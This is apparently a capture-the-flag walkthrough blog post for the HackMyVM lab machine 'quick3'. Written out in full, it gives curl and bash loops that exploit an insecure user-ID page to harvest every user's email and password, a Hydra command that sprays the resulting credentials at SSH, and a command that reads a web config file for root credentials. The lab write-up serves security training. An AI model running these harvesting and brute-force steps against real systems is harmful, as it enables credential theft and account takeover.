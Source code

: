 ```yaml
---
title: "quick3 - eMVee"
excerpt: " "
comments: true
categories:
  - Hacking
  - Walkthrough
tags:
  - Hacking
  - Walkthrough
  - HackMyVM
  - quick3
header:
  overlay_image: /assets/images/pasek-hack.png
---
```

# quick3 - eMVee
{: .text-justify}

## 00. Metainfo

|:----|:----|
|Title:|quick3|
|Author:|[eMVee](https://hackmyvm.eu/profile/?user=eMVee)|
|Release date:|2024-02-19|
|Download from:|[HackMyVM](https://hackmyvm.eu/machines/machine.php?vm=quick3)|
|Level:|Easy|
|System:|linux|
|You'll learn:|Bash scripting|

# 01. Register new user
```bash
export IP=172.16.1.127
curl -d "name=newuser&email=newmail@newmail.com&password=password&register=Register" http://$IP/customer/index.php
```
Registration successful
{: .text-justify}
# 02. Login and get a cookie
```bash
curl -v -d 'email=newmail@newmail.com&password=password&login=Login' 'http://172.16.1.127/customer/login.php'
```
```text
*   Trying 172.16.1.127:80...
* Connected to 172.16.1.127 (172.16.1.127) port 80
> POST /customer/login.php HTTP/1.1
> Host: 172.16.1.127
> User-Agent: curl/8.5.0
> Accept: */*
> Content-Length: 55
> Content-Type: application/x-www-form-urlencoded
> 
< HTTP/1.1 302 Found
< Date: Tue, 20 Feb 2024 00:06:22 GMT
< Server: Apache/2.4.52 (Ubuntu)
< Set-Cookie: PHPSESSID=hab58kcfs74fgp9vtv78i92de5; path=/
< Expires: Thu, 19 Nov 1981 08:52:00 GMT
< Cache-Control: no-store, no-cache, must-revalidate
< Pragma: no-cache
< location: dashboard.php
< Content-Length: 0
< Content-Type: text/html; charset=UTF-8
< 
* Connection #0 to host 172.16.1.127 left intact
```
# 03. Create a list of emails
```bash
cookie="PHPSESSID=hab58kcfs74fgp9vtv78i92de5"
pattern1="fa-envelope-o"
pattern2=": .*@*<"
pattern3=' :<'

for i in {1..28}; do
        curl -s -b "$cookie" http://$IP/customer/user.php?id=$i | grep $pattern1 | grep -o "$pattern2" | tr -d "$pattern3"
done > emails.txt
```
# 04. Create a list of passwords
```bash
cookie="PHPSESSID=hab58kcfs74fgp9vtv78i92de5"
pattern1="oldpassword\" value="
pattern2="value=\".*\""
pattern3='s/value=//g; s/"//g'

for i in {1..28}; do
        curl -s -b "$cookie" http://$IP/customer/user.php?id=$i | grep "$pattern1" | grep -o "$pattern2" | sed "$pattern3"
done > passwords.txt
```
# 05. Create a list of the type user:pass
```bash
paste emails.txt passwords.txt | sed 's/@.*hmv/:/' | tr -d ' \t' > user_pass.txt
cat user_pass.txt | awk -F'[.:]' {'print $1":"$NF'} > user_pass2.txt
```
# 06. Find the password for the SSH user
```bash
hydra -V -C user_pass2.txt ssh://$IP
```
# 07. Find the password for the root user
```bash
bash
cat /var/www/html/customer/config.php
```